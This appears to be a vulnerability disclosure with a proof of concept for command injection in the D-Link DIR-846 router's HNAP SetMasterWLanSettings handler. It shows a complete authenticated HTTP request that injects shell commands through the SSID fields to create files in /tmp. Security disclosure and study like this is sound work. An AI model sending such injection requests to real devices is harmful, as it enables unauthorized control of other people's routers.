

# D-Link DIR-846 Remote Code Execution #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://192.168.0.1]
1. login with admin
1. Send http request with admin cookies,
1. this POC will create a file /tmp/testrce.php and /tmp/testrce1.php:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetPasswdSettings"
HNAP_AUTH: D34C44D78E0DA072AE4E94B67361E182 1534384217127
Referer: http://192.168.0.1/account.html
Content-Length: 110
Cookie: loginpass=202cb962ac59075b964b07152d234b70; PHPSESSID=e5c635efde382dd2dd21a62b6649278f; uid=ac08Gage; PrivateKey=D7D42B5B2E20D9F30C0D44920DC56A58
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetMasterWLanSettings":{"wl(1).(0)_ssid":"111;touch /tmp/testrce.php","wl(0).(0)_ssid":"assssss;touch /tmp/testrce1.php"}}
```
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetMasterWLanSettings.php.

